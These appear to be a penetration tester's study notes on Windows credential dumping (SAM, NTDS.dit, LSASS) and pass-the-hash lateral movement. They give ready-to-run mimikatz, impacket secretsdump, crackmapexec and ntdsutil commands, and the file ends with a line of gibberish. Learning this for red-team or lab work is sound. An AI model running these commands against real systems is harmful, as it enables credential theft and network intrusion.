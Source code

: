 - After compromising a domain user on the network, the next step is to gather all usernames, hashes, sensitive info., and anything that helps us pivot to compromise other machines within the network.
- This will trigger a lot of noise and will trip off alerts if we are on a stealthy red teaming engagement.


## How to steal hashes of users after getting a foothold?
1. DSync attacks
2. Extracting hashes from NTDS.dit
3. Another method is dumping lsass.exe process which stores hashes for users with active sessions to the computer.

[Credential Dumping using SAM](https://www.hackingarticles.in/credential-dumping-sam/)
```Mimikatz Way
privilege::debug
token::elevate
lsadump::sam
```
Impacket Way of dumping SAM
```Impacket
./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL
```
Using crackmapexec
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --sam
```

[Dumping NTDS.dit](https://www.hackingarticles.in/credential-dumping-ntds-dit/) and [Vault Notes](obsidian://open?vault=THM%20Networks&file=Knowledge%20Base%2FPass-The-Hash%2FWhat%20is%20NTDS-dit)
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --ntds drsuapi
```

```Powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#After this we get the output as hive files which we then transfer back to our local machine

./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL
#All we need is to provide the path of the SYSTEM hive file and the NTDS.dit file and we are good to go. secretsdump will extract the hashes for us
```

[Dumping LSASS](https://www.hackingarticles.in/credential-dumping-local-security-authority-lsalsass-exe/)
```Task_Manager
In your local machine (target) and open the task manager, navigate to processes for exploring running process of lsass.exe and make a right-click to explore its snippet.  Choose “Create Dump File” option which will dump the stored credential.
```
- After saving the dump file from task manager, use mimikatz to get data out of the `.dmp` file.
```mimikatz
privilege::debug
sekurlsa::minidump C:\Users\raj\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
Empire way
```powershell_empire
usemodule credentials/mimikatz/lsadump
execute
```
Crackmapexec`
```crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --lsa
```
Tools which can be used for getting hashes
1. Mimikatz
![[Pasted image 20221010152506.png]]


#### There are 2 techniques used for lateral movement for impersonating valid user accounts or service account using hashes
1. `Pass the hash attack`
2. `Over Pass the hash attack`


## 1. Pass-The-Hash - Local Admin rights required
- This is the initial attack where an attacker uses the dumped hashes to perform a valid NTLM authentication without accessing cleartext passwords and see if the compromised user can access other resources or systems on the network.
- So here the attacker impersonates the user from one application to another, they often engage in hash harvesting throughout the system which can be used to access more areas of the network, add account privileges, target a privileged account and set up backdoors and other gateways to enable future access.


- After getting the hashes, now we need to authentication with the stolen password hash using Pass The Hash technique.

Using mimikatz, pass the hash can be conducted by the following command
```
mimikatz sekurlsa::pth /user:<compromised user> /domain:<THROWBACK.local /ntlm:<hash>
```
- Instead of `/ntlm`, we can also use `/aes128` or `/aes256` hash option in Mimikatz




### Another ways to pass the hash
[Blog](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)

HEY THEREE...HERE EWDIVIDHV CMMITNDNVJNDVNDV